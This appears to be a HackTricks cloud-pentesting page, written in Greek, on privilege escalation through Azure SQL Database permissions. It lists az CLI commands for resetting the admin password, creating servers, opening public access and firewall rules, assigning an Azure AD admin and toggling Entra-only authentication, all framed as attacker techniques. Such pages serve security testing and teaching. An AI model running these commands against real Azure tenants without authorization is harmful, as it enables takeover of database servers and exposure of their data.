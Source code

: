 # Az - SQL Database Privesc

{{#include ../../../banners/hacktricks-training.md}}

## SQL Database Privesc

Για περισσότερες πληροφορίες σχετικά με τη SQL Database, ελέγξτε:

{{#ref}}
../az-services/az-sql.md
{{#endref}}

### `Microsoft.Sql/servers/read` && `Microsoft.Sql/servers/write`

Με αυτές τις άδειες, ένας χρήστης μπορεί να εκτελέσει κλιμάκωση προνομίων ενημερώνοντας ή δημιουργώντας Azure SQL servers και τροποποιώντας κρίσιμες ρυθμίσεις, συμπεριλαμβανομένων των διαπιστευτηρίων διαχειριστή. Αυτή η άδεια επιτρέπει στον χρήστη να ενημερώνει τις ιδιότητες του διακομιστή, συμπεριλαμβανομένου του κωδικού πρόσβασης του διαχειριστή SQL, επιτρέποντας μη εξουσιοδοτημένη πρόσβαση ή έλεγχο του διακομιστή. Μπορούν επίσης να δημιουργήσουν νέους διακομιστές, ενδεχομένως εισάγοντας σκιασμένη υποδομή για κακόβουλους σκοπούς. Αυτό γίνεται ιδιαίτερα κρίσιμο σε περιβάλλοντα όπου η "Microsoft Entra Authentication Only" είναι απενεργοποιημένη, καθώς μπορούν να εκμεταλλευτούν την SQL-based authentication για να αποκτήσουν απεριόριστη πρόσβαση.
```bash
# Change the server password
az sql server update \
--name <server_name> \
--resource-group <resource_group_name> \
--admin-password <new_password>

# Create a new server
az sql server create \
--name <new_server_name> \
--resource-group <resource_group_name> \
--location <location> \
--admin-user <admin_username> \
--admin-password <admin_password>
```
Επιπλέον, είναι απαραίτητο να έχετε ενεργοποιημένη την δημόσια πρόσβαση αν θέλετε να έχετε πρόσβαση από ένα μη ιδιωτικό σημείο, για να το ενεργοποιήσετε:
```bash
az sql server update \
--name <server-name> \
--resource-group <resource-group> \
--enable-public-network true
```
### `Microsoft.Sql/servers/firewallRules/write`

Ένας επιτιθέμενος μπορεί να χειριστεί τους κανόνες τείχους προστασίας στους Azure SQL servers για να επιτρέψει μη εξουσιοδοτημένη πρόσβαση. Αυτό μπορεί να εκμεταλλευτεί για να ανοίξει τον διακομιστή σε συγκεκριμένες διευθύνσεις IP ή σε ολόκληρες περιοχές IP, συμπεριλαμβανομένων των δημόσιων IP, επιτρέποντας την πρόσβαση σε κακόβουλους παράγοντες. Αυτή η δραστηριότητα μετά την εκμετάλλευση μπορεί να χρησιμοποιηθεί για να παρακαμφθούν οι υπάρχοντες ελέγχοι ασφαλείας δικτύου, να καθιερωθεί επιμονή ή να διευκολυνθεί η πλευρική κίνηση εντός του περιβάλλοντος εκθέτοντας ευαίσθητους πόρους.
```bash
# Create Firewall Rule
az sql server firewall-rule create \
--name <new-firewall-rule-name> \
--server <server-name> \
--resource-group <resource-group> \
--start-ip-address <start-ip-address> \
--end-ip-address <end-ip-address>

# Update Firewall Rule
az sql server firewall-rule update \
--name <firewall-rule-name> \
--server <server-name> \
--resource-group <resource-group> \
--start-ip-address <new-start-ip-address> \
--end-ip-address <new-end-ip-address>
```
Επιπλέον, η άδεια `Microsoft.Sql/servers/outboundFirewallRules/delete` σας επιτρέπει να διαγράψετε έναν κανόνα τείχους προστασίας.  
ΣΗΜΕΙΩΣΗ: Είναι απαραίτητο να έχετε ενεργοποιημένη την δημόσια πρόσβαση.

### `Microsoft.Sql/servers/ipv6FirewallRules/write`

Με αυτή την άδεια, μπορείτε να δημιουργήσετε, να τροποποιήσετε ή να διαγράψετε κανόνες τείχους προστασίας IPv6 σε έναν Azure SQL Server. Αυτό θα μπορούσε να επιτρέψει σε έναν επιτιθέμενο ή εξουσιοδοτημένο χρήστη να παρακάμψει τις υπάρχουσες ρυθμίσεις ασφαλείας δικτύου και να αποκτήσει μη εξουσιοδοτημένη πρόσβαση στον διακομιστή. Προσθέτοντας έναν κανόνα που επιτρέπει την κυκλοφορία από οποιαδήποτε διεύθυνση IPv6, ο επιτιθέμενος θα μπορούσε να ανοίξει τον διακομιστή για εξωτερική πρόσβαση.
```bash
az sql server firewall-rule create \
--server <server_name> \
--resource-group <resource_group_name> \
--name <rule_name> \
--start-ip-address <start_ipv6_address> \
--end-ip-address <end_ipv6_address>
```
Επιπλέον, η άδεια `Microsoft.Sql/servers/ipv6FirewallRules/delete` σας επιτρέπει να διαγράψετε έναν κανόνα τείχους προστασίας.  
ΣΗΜΕΙΩΣΗ: Είναι απαραίτητο να έχετε ενεργοποιημένη την δημόσια πρόσβαση.

### `Microsoft.Sql/servers/administrators/write` && `Microsoft.Sql/servers/administrators/read`

Με αυτές τις άδειες μπορείτε να κάνετε privesc σε ένα περιβάλλον Azure SQL Server αποκτώντας πρόσβαση σε SQL βάσεις δεδομένων και ανακτώντας κρίσιμες πληροφορίες. Χρησιμοποιώντας την παρακάτω εντολή, ένας επιτιθέμενος ή εξουσιοδοτημένος χρήστης μπορεί να ορίσει τον εαυτό του ή έναν άλλο λογαριασμό ως διαχειριστή Azure AD. Εάν είναι ενεργοποιημένη η "Μόνο Αυθεντικοποίηση Microsoft Entra", μπορείτε να αποκτήσετε πρόσβαση στον διακομιστή και τις παρουσίες του. Ακολουθεί η εντολή για να ορίσετε τον διαχειριστή Azure AD για έναν SQL διακομιστή:
```bash
az sql server ad-admin create \
--server <server_name> \
--resource-group <resource_group_name> \
--display-name <admin_display_name> \
--object-id <azure_subscribtion_id>
```
### `Microsoft.Sql/servers/azureADOnlyAuthentications/write` && `Microsoft.Sql/servers/azureADOnlyAuthentications/read`

Με αυτές τις άδειες, μπορείτε να ρυθμίσετε και να επιβάλετε την "Μόνο Αυθεντικοποίηση Microsoft Entra" σε έναν Azure SQL Server, κάτι που θα μπορούσε να διευκολύνει την κλιμάκωση προνομίων σε ορισμένα σενάρια. Ένας επιτιθέμενος ή ένας εξουσιοδοτημένος χρήστης με αυτές τις άδειες μπορεί να ενεργοποιήσει ή να απενεργοποιήσει την αυθεντικοποίηση μόνο μέσω Azure AD.
```bash
#Enable
az sql server azure-ad-only-auth enable \
--server <server_name> \
--resource-group <resource_group_name>

#Disable
az sql server azure-ad-only-auth disable \
--server <server_name> \
--resource-group <resource_group_name>
```
{{#include ../../../banners/hacktricks-training.md}}
